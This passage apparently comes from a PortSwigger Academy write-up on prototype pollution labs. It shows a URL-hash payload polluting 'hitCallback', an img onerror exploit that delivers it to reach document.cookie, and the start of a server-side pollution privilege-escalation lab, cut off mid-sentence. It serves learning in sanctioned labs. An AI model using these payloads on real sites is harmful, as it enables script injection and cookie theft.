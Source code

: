 I scanned for gadgets for `hash`, and it found a sink:

![](../../.gitbook/assets/portswigger-prototype-writeup-image-13.png)

Here's the payload:

```
#constructor[prototype][hitCallback]=alert%281%29
```

Now, I just need to change the payload and deliver the exploit to the victim.

```html
<img src="x" onerror=document.location="https://0a9f0055042a4d69843f02aa00a80030.web-security-academy.net/#constructor[prototype][hitCallback]=alert(document.cookie)">
```

## Lab 6: Server-side pollution -> Privilege Escalation

To solve this lab, delete `carlos` as the `administrator` user. I am given this 'Restart node application' function:

![](../../.gitbook/assets/portswigger-prototype-writeup-image-14.png)

This is because server-side pollution can break the server. Anyways, when logged in, I see this change address option:
